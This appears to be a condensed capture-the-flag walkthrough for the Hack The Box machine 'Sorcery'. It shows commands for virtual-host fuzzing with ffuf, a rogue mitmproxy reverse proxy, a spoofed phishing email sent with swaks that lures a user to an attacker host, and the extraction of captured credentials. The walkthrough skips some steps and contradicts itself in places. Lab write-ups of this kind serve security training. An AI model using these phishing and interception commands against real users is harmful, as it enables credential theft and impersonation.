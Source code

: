 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb</span></code></pre>

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>

This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*

